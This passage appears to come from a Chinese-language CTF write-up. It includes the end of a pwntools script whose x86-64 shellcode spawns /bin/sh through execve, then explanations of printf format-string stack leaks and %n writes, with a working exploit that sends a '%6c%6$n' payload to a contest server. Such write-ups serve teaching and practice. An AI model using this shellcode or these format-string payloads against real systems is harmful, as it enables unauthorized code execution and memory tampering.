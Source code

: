```python
	nop
	nop
	nop
	nop
	nop
	nop
	nop
	nop
	nop
	nop
	nop
	nop
	nop
	nop
    mov rbx, 0x0068732f6e69622f
    push rbx
    push rsp
    pop rdi
    xor esi,esi
    xor edx,edx
    push 59
    pop rax
    syscall
''')
r.send(payload2)
r.interactive()
```

50:printf_0

​	printf的格式化字符串可以打印对应的参数,但是当参数不存在时,它会到寄存器和栈里去找参数.而%x\$则可以选择第x个参数,所以可以任意泄露栈内的信息.

​	这题没写代码,手动完成的操作.

51:print_1

​	printf格式化字符串还有一个参数:%n.它会取消本次参数对应的输出,然后向本次参数(一个地址)内写入已经输出过的字符数,

​	对于本题而言,我们只需找到格式化字符串存储的位置所对应的参数个数x,然后构造payload为需要修改的变量的地址+%yc(将已经输出的字符数控制为我们需	要的数量,本题需要10,因此y为10-4(p32()后数字的长度)=6)+%x\$n

​	代码:

```python
from pwn import *
#flag:0x804B370
#buf:6
payload=p32(0x0804B370)+"%6c%6$n"
p=remote("contest.ctf.nefu.edu.cn",33324)
print(p.recv())
p.sendline(payload)
p.interactive()
```

52:Hello_gdb

